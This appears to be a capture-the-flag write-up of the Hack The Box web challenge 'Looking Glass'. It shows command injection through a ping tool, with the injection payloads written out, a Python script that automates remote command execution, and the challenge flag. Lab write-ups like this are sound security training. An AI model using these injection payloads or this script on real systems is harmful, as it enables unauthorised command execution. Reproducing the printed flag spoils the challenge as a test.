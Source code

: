 ```yaml
---
title: "HTB: Looking Glass"
last_modified_at: 2021-11-07T20:00:00+01:00
categories:
  - HTB
tags:
  - Easy-Challenge
  - Web
  - OWASP Top 10
  - RCE
---
```


# Quick summary
A simple start to the `OWASP Top 10 Task` on HTB.<br>
This challenge focuses on `RCE` (Remote Code Execution)

## Description

> We've built the most secure networking tool in the market, come and check it out!

# Enumeration
Visiting the website at `178.62.18.46:30815`:
![Visiting the website](/assets/htb/looking_glass/visiting_website.png)

Trying to catch the ping with `sudo tcpdump -i tun0 icmp` and running a ping against attacker box gets 100% packet loss.
![Testing ping](/assets/htb/looking_glass/ping_test.png)

It appears that whatever the IP is, there's always 100% packet loss.

## Analysis

Thinking of how this could be implemented on the server side, a common trap developers can fall into is doing something like:

```php
system("ping -c 4 " + $IP);
```

If it's possible to insert a `;` into the `$IP` variable, the attacker can run a seperate command after the `ping`.

```php
system("ping -c 4 172.62.18.46; ls)
```

Here, `ls` would be run as a seperate commands.<br>
Let's see if it works!

# Exploit

Let's try `; ls` at the end of the IP address.

![RCE in Ping](/assets/htb/looking_glass/rce_in_ping.png)

It's now confirmed that the site is vulnerable to `rce`.<br>
Let's try to find the flag!

Running `;ls -la /` to look at files at root level.<br>
There's a suspect file named `flag_QDTWY` and it's world-readable.<br>

![Flag location](/assets/htb/looking_glass/flag.png)

Running `;cat /flag_QDTWY` shows the content of the file.

![Showing flag](/assets/htb/looking_glass/cat_flag.png)

# Others writeups

On my journey of learning and understanding i found the blog:<br>
[ir0nstone](https://ir0nstone.gitbook.io/hackthebox/challenges/web/looking-glass){:target="_blank"}{:rel="noopener noreferrer"}

The author have a good `Automation` and `Checking the Source` sections that I want to try aswell.

## Automation
Python script (with some alterations):

```python
#!/usr/bin/python3

from requests import post

eplots = input('rce>> ')

data = { 'test': 'ping', 'ip_address': f'178.62.0.100; {eplots}', 'submit': 'Test' }
r = post('http://178.62.18.46:30815/', data=data)

res = r.text
res = res.split('packet loss\n')[-1]
res = res.split('</textarea>')[0]

print(res.strip())
```

Running the script with results:
```bash
# ./automation.py 
>> cat /flag_QDTWY
HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}
```

## Checking the Source
Injecting `;cat index.php` we can see whats happening:
![Checking the Source Code](/assets/htb/looking_glass/checking_the_source.png)

# Pwned confirmation
![Looking Glass Pwned](/assets/htb/looking_glass/looking_glass_pwned.png)